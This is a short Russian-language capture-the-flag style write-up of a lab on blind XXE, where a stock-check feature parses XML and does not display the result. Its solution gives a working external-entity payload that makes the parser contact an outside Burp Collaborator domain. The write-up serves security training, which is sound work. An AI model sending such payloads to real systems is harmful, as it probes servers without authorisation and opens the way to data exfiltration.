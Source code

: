 В этой лабораторной работе есть функция «Проверка запасов», которая анализирует входные данные XML, но не отображает результат.

Вы можете обнаружить слепую уязвимость XXE, инициировав внеполосное взаимодействие с внешним доменом.

Для решения лабораторной работы используйте внешнюю сущность, чтобы заставить XML-анализатор выполнить DNS-поиск и HTTP-запрос к Burp Collaborator.


## Дано

функция «Проверка запасов», которая анализирует входные данные XML, но не отображает результат.

## Задача

инициировать внеполосное взаимодействие с внешним доменом.

# Решение 

- Формируем нагрузку
```
<!DOCTYPE stockCheck [ 
	<!ENTITY xxe SYSTEM "http://5ouc2phowsd0prsgox25a7psljraf23r.oastify.com"> ]>
<root>&xxe;</root>
```